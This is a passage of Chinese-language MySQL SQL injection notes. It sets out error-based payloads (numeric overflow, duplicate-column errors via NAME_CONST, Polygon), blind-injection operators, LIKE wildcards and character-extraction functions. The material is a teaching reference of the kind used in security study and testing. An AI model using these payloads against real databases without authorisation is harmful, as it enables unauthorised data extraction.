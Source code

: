 - group_concat有长度限制,如果过滤了limit
```sql
select username from users group by id having id=1;
```

- 一些其他报错手法
```sql
基于数据溢出
select (select(!x-~0)from(select(select user())x)a);
基于列名重复可以报错列名
select * from (select NAME_CONST(version(),1),NAME_CONST(version(),1))x;
select *  from(select * from TABLE a join TABLE b)c;
select *  from(select * from TABLE a join TABLE b using(COLUMN,COLUMN.....))c;
基于字段名
select * from user where ID=1 and Polygon(ID)
```

## 布尔注入和盲注

两种注入方法的区别其实就是一个回显是01一个回显是时间长短.
注入利用的主要是运算符号或和条件语句.
`_`代表空格

###  符号或语法
```sql
 - + * /(div) %(mod) 
 = <>(!=) > < <= >= between not_between in not_in <=> like regexp rlike is_null is_not_null
 not(!) and or xor & | ^ << >> ~
```

**和匹配相关的语法**  
参考：
- https://dev.mysql.com/doc/refman/8.0/en/regexp.html#function_regexp-like
```
like,rlike,regexp,not_regexp等
```
  
其中like的语法中`_`,`%`是通配符，可以匹配任何。但是`_`一旦超过匹配字符串的长度，就会匹配不到，`%`则没有数量限制。  
简单如下：
```sql
select 'aaa' like '___'; # 1
select 'aaa' like '____'; # 0
select 'aaa' like '%%%%'; # 1
select 'aaa' like '%%%%%'; #1
```


### 常规函数
**字符串截取函数**
```sql
Mid(version(),1,1)
Substr(version(),1,1)
Substring(version(),1,1)
Lpad(version(),1,1)
Rpad(version(),1,1)
Left(version(),1)
reverse(right(reverse(version()),1)
```
